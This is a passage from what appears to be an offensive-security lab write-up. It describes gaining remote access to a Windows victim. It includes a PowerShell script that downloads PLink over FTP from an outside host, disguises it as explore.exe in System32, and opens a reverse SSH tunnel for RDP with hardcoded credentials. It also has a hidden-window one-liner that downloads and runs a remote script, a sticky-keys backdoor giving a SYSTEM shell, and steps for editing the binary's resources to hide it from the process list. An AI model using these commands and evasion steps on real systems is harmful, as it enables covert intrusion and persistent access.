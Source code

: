 ```powershell
    (New-Object System.Net.WebClient).DownloadFile('ftp://10.1.149.150:21/plink', 'C:/Windows/System32/explore.exe')

    # Generate a random port to use for RDP Port Forward
    $port = Get-Random -Minimum 2000 -Maximum 65000
    $c = "C:/Windows/System32/explore.exe -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f -batch -N -R $($port.toString()):127.0.0.1:3389 10.1.149.150 -l toor -pw password1!"
    powershell.exe -c $c
```

In order to download the script, I had the exploit run the following command to use a .Net client to download the script as as string and execute the commands in PowerShell.
```
powershell -windowstyle hidden -c "IEX (New-Object Net.Webclient).DownloadString('ftp://10.1.149.150:21/script.ps1')\"
```

After running this script, I was able to RDP to the victim as shown in the PLink section above, then press shift 5 times in a row to invoke the sticky keys program, which was replaced with the command prompt program. This gave me a system level shell by using RDP port forwarded over SSH without logging in to the system.

## Bonus Fun - Edit the PLink Binary Resources

As an extra layer of fun, I decided to use [Resource Hacker](http://www.angusj.com/resourcehacker/) to edit some parts of the PLink program. I did this because I didn't want the PLink SSH Client description showing up in the process list on the victim. Below is a screenshot of the PLink process running before being altered.
![taskmanagerplink](images/taskmanagerplink.png)
